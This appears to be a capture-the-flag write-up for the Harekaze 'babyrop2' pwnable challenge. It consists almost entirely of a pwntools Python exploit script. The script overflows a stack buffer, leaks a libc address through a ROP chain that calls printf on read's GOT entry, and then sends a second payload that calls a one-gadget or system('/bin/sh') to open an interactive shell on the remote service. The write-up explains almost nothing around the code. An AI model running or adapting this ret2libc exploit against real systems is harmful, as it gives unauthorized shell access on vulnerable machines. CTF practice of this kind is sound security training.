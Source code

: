 # **babyrop2**

#### tag : pwnable, rop

-----------------------------------------------

#### Description

>nc problem.harekaze.com 20005

-----------------------------------------------

#### Solution

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
r = remote('problem.harekaze.com', 20005)

elf = ELF('./babyrop2')
read_plt = elf.symbols['read']
read_got = elf.got['read']
printf_plt = elf.symbols['printf']
pritnf_got = elf.got['printf']
main = 0x400636

libc = ELF('./libc.so.6')
libc_read_offset = libc.symbols['read']
libc_oneshot_offset = [0x45216,0x4526a,0xf02a4,0xf1147][3]
libc_system_offset = libc.symbols['system']
libc_binsh_offset = next(libc.search('/bin/sh\x00'))

# 0x0000000000400733 : pop rdi ; ret
gg1 =0x0000000000400733

p = 'a' * 0x28
p += flat(
	gg1,
	read_got,
	printf_plt,
	main
)

r.recvuntil('? ')
r.send(p)
r.recvuntil('\n')

libc_read = u64((r.recv(6)).ljust(8,'\x00'))
libc_base = libc_read - libc_read_offset
libc_oneshot = libc_base + libc_oneshot_offset
libc_system = libc_base + libc_system_offset
libc_binsh = libc_base + libc_binsh_offset

p = 'a' * 0x28
p += p64(libc_oneshot)
p += flat(
	gg1,
	libc_binsh,
	libc_system
)

r.recvuntil('? ')
r.send(p)
r.recvuntil('\n')

r.interactive()
```
